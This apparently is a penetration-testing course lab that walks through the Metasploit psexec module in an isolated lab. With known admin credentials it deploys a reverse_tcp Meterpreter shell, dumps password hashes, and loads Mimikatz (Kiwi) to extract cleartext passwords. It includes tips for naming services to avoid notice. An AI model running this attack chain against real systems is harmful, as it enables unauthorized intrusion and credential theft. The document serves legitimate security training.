Lab 4.2: MSF pxexec, hash dumping, and Mimikatz
Objectives
- To use the Metasploit
psexecexploit module to deploy a Meterpreter payload to a target Windows machine using an authenticated SMB session - To explore the Meterpreter’s abilities to get privileges and dump hashes from a target machine
Table of contents
Lab Setup
Ensure that you can ping 10.10.10.10 in the 560 target environment from your Slingshot Linux image.
$ ping 10.10.10.10
Lab – Step-by-Step Instructions
1. Launch Metasploit
Start by launching Metasploit.
$ msfconsole
Now let’s choose the psexec exploit module from Metasploit, which we can use to cause a target to run a Metasploit payload:
msf5 > use exploit/windows/smb/psexec
For a payload, we’ll use a Meterpreter stage with a reverse_tcp stager:
msf5 exploit(psexec)> set PAYLOAD windows/meterpreter/reverse_tcp

Next, we need to tell Metasploit the target on which it should launch psexec, specifically 10.10.10.10:
msf5 exploit(psexec)> set RHOST 10.10.10.10
We now need to set the LHOST, where the reverse_tcp stager will connect back to. Set it for your own Linux IP address:
msf5 exploit(psexec)> set LHOST YOUR_LINUX_IP_ADDRESS
Note: Do not type
YOUR_LINUX_IP_ADDRESS; instead, type the IP address of your Linux system.
Now, we’ll configure our psexec exploit module with a username of falken and a password of joshua. User falken is in the administrators group for this machine, as we have seen earlier in this class:
msf5 exploit(psexec)> set SMBUser falken msf5 exploit(psexec)> set SMBPass joshua
Next, let’s review the settings for our attack:
msf5 exploit(psexec)> show options

In the section on options for exploit/windows/smb/psexec, we see that we can configure a SERVICE_DISPLAY_NAME and a SERVICE_NAME. Remember, psexec creates a service on the target machine, and these settings enable us to set the name of the service that will appear in the Service Control Panel GUI (SERVICE_DISPLAY_NAME) and via the sc command (SERVICE_NAME). This way, we can make our attack more subtle by choosing a name that might blend in with what is expected on a target system. If we don’t specify a name here, Metasploit will create a service with a pseudorandom display name and service name, which might draw more attention in Windows event logs. However, note that even if we do create a subtle name that blends in with what is normally on the system (something innocuous such as plug-and-play or winlogon), the Windows event log will still show the service creation, start, stop, and deletion events.
As we have seen, show options shows the main settings for Metasploit modules. But there are dozens of additional variables for most modules available via their advanced settings. We can see these options by running show advanced. Let’s try it:
msf5 exploit(psexec)> show advanced

Here we can see numerous options letting us specify things like the local client port (CPORT) to use in launching an attack, an indication of whether or not to make a persistent service that will run every time the system boots so we’d automatically get a Meterpreter session sent back at system boot (SERVICE_PERSIST), and a setting of SERVICE_FILENAME. This variable can be set to a name that the payload file will be written into on the target machine so that the service can execute it. Again, by default, the SERVICE_FILENAME is a pseudorandom string. To be subtle, we may want to change that to something that is more likely to be expected on a target machine, such as svchost.
Let's leave these options alone for now. The pseudorandom strings and the timing means that it is highly unlikly two services with the same name will be installed at the same time.
Before we launch the attack, let's confirm the settings are correct by running show options. Below are the options for the exploit.

Note: Your LHOST will likely be different that what is shown in the screenshot above.
Step 2. Launch the attack
In your Metasploit console terminal, let’s launch the attack:
msf5 exploit(psexec)> exploit

Note the output displayed on the screen. We can see the following actions taken by Metasploit:
- Metasploit automatically starts a reverse handler listening on local port 4444, awaiting the
reverse_tcpconnection to come back. The defaultLPORTis4444for most Metasploit payloads. We could have changed that by setting theLPORTto some other value. - It then connects to the target server.
- It authenticates to the target machine as user
falken. - It then recognizes that the target has PowerShell installed.
- It then executes the payload by starting the service.
- If the service starts successfully, it then sends the stage to the target (uploading it using the stager).
- And finally, we get a Meterpreter session.
Step 3. Meterpreter
Now we are inside our Meterpreter session. To see the user account we are running as, let’s run:
meterpreter > getuid
We have local SYSTEM privileges on the machine. So we started with an admin username (falken) and password (joshua) and used them to get code execution as local SYSTEM via psexec. The Meterpreter also has another command called getprivs, which uses its existing privileges to pull in as many additional privileges as it can. We don’t always have to run the getprivs command, as we often have the privileges we need to access things on a target system. But getprivs helps on machines that have been hardened with certain privileges removed from specific administrative accounts. Let’s run getprivs and see the privileges it will grab for us:
meterpreter > getprivs
Now, with your Meterpreter session, let’s grab the hashes from the target. We’ll use the post/windows/gather/smart_hashdump module to extract password hashes from the remote system. This module is smart and will dump password hashes differently depending on the target system's role. If the target is a domain controller, it will pull passwords differently and from a dfferent location. We'll discuss this in more depth later in this course.
meterpreter > info post/windows/gather/smart_hashdump

meterpreter > run post/windows/gather/smart_hashdump
In addition, the run post/windows/gather/smart_hashdump command also attempts to pull password hints from the system if any users have configured their accounts with password hints.

So we successfully got hashes from the target machine, which we could then crack or use in a pass-the-hash attack, two topics we’ll be covering in depth later.
Step 4. Mimikatz (Kiwi)
Let's take a look at our current session by running sysinfo:
meterpreter > sysinfo

As we can see above, the target system is 64-bit, but the Meterpreter process itself is 32-bit. To perform this next task, we need to be in a 64-bit SYSTEM process. Let's find 64-bit SYSTEM processes on the target using the following command:
meterpreter > ps -A x64 -s
The above command will identify processes (ps) on the target that are 64-bit (-A x64) and are running with SYSTEM-level permissions (-s, lowercase s).

As you can see in the above output, there will be a number of 64-bit SYSTEM ping.exe processes. Obviously, this isn't typical, but we need extra processes to use in the next step, and if too many people use the same processes at the same time, it will cause issues. Pick one of the process IDs (PID column, NOT PPID) for use in the next command.
We'll then migrate into one of the 64-bit SYSTEM processes (ping.exe) using the following command:
meterpreter > migrate PROCESS_ID_OF_PING
Note: Don't type
PROCESS_ID_OF_PING; instead, type the process ID number (PIDcolumn) of one of the 64-bit SYSTEM ping.exe processes.

Verify that your Meterpreter is 64-bit by running the command below and analyzing the Meterpreter line:
meterpreter > sysinfo
Your output should be similar to this:

Now that we are in a 64-bit process, we can load Mimikatz with the following command:
meterpreter > load kiwi
Your output should look similar to this:

Let's look at the new commands available to us by running help:

Now let's get the passwords from RAM by running the following command:
meterpreter > creds_all
You should see output similar to this:

Now we can see the hash for the Administrator account. Furthermore, we can see the cleartext password for the Administrator account because it was loaded into memory. For that target machine, the Administrator password is sansnight.
Step 4. Wrapping up
To finish this lab, exit your Meterpreter session with target 10.10.10.10:
meterpreter > exit
Again, keep Metasploit open; we'll use this configuration again.
Conclusion
In this lab, we’ve run the Metasploit psexec module, looking at its configuration options and analyzing its step-by-step activities to gain code execution on a target machine. We used psexec to run a meterpreter/reverse_tcp payload on the target with local SYSTEM privileges, which we then employed to seize additional privileges and to gather hashes via the post/windows/gather/smart_hashdump module. Additionally, we can gather cleartext credentials for logged-in users with Mimikatz (kiwi). Each of these capabilities is highly useful in a penetration test.